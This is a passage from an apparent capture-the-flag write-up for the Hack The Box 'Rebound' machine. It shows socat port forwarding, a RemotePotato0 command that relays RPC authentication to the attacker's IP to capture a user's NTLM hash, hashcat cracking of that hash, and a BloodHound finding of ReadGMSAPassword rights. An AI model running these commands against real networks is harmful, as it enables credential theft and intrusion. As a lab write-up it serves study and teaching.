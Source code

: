 We're going to use the second module, in order to grab the hash we require.

The exploit requires a bit of setup which is briefly laid out in the GitHub repo.

We need to run `socat` in order to set up forwarding between port 9999 (default for the exploit) on the remote machine and port 135 on our local machine as we can't listen on that port on the Rebound machine itself and RPC connections like this only target port 135.

```shell
socat -v TCP-LISTEN:135,fork,reuseaddr TCP:10.10.11.231:9999
```
#### Module 2 - RPC capture (hash) server + potato trigger

With that out of the way, we can now upload and run our exploit with the following options:

```powershell
.\RemotePotato0.exe -m 2  -r 10.10.16.12 -x 10.10.16.12 -s 1
```

To run it, I’ll use the following options:

- `-m 2` - method 2, “Rpc capture (hash) server + potato trigger”
- `-s 1` - the session of the user to target
- `-x 10.10.16.12` - rogue Oxid resolver IP to our machine
- `-r 10.10.16.12` - remote relay server IP to our machine

![](Pasted%20image%2020240426003426.png)

This dumps a hash for the `tbrady` user, which we can then attempt to crack with Hashcat and mode `5600`:

```shell
hashcat -m 5600 t.brady /usr/share/wordlists/rockyou.txt
```

We're successful and now have credentials for that user!
### ReadGSMAPassword

Going back to Bloodhound, we can see under **First degree object control** the `tbrady` user has `ReadGMSAPassword` over the `delegator$` account. This password is stored in the `msDS-ManagedPassword` attribute of a group managed service account and is calculated on-demand by the Domain Controller.

![](Pasted%20image%2020240426003924.png)
